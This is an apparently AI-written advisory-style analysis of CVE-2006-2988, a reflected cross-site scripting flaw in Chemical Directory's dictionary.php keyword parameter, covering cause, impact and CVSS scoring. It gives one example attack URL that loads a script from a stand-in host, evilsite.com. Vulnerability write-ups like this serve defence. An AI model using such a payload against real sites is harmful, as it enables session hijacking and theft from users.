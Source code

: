 Based on the provided content, here's the analysis for CVE-2006-2988:

**Root Cause of Vulnerability:**
The vulnerability is due to a lack of proper input sanitization in the `dictionary.php` file of the Chemical Directory software. Specifically, the `keyword` parameter within a GET request is not properly sanitized before being used in the application's output.

**Weaknesses/Vulnerabilities Present:**
Cross-Site Scripting (XSS): The primary vulnerability is a reflected XSS vulnerability.

**Impact of Exploitation:**
An attacker can inject malicious JavaScript code into the `keyword` parameter. When a user visits the crafted URL, this script will execute in their browser. This can result in:
   - Session hijacking
   - Defacement of the web page
   - Stealing of sensitive information
   - Redirection to malicious websites

**Attack Vectors:**
The attack vector is through a crafted URL. An attacker needs to convince a user to click on a malicious link.

**Required Attacker Capabilities/Position:**
   - The attacker can be remote and does not need to have any prior authentication.
   - The attacker needs to be able to craft the malicious URL.
   - Social engineering tactics are needed to entice a user to visit the malicious link.

**Technical Details:**
The vulnerable URL is in the format:
`http://www.example.com/dictionary.php?action=browse&keyword=[MALICIOUS_JAVASCRIPT]`

A concrete example:
`http://www.example.com/dictionary.php?action=browse&keyword=e[SCRIPT SRC=http://evilsite.com/xss.js][/SCRIPT]`

This injects a script that will execute in the user's browser.

**Additional Notes:**
   - The software's version is unknown.
   - The risk of this vulnerability is classified as "Low" but the CVSS score is 4.3, which indicates a medium severity.
   - The attack complexity is "Medium".
   - The confidentiality impact is "None" and the integrity impact is "Partial".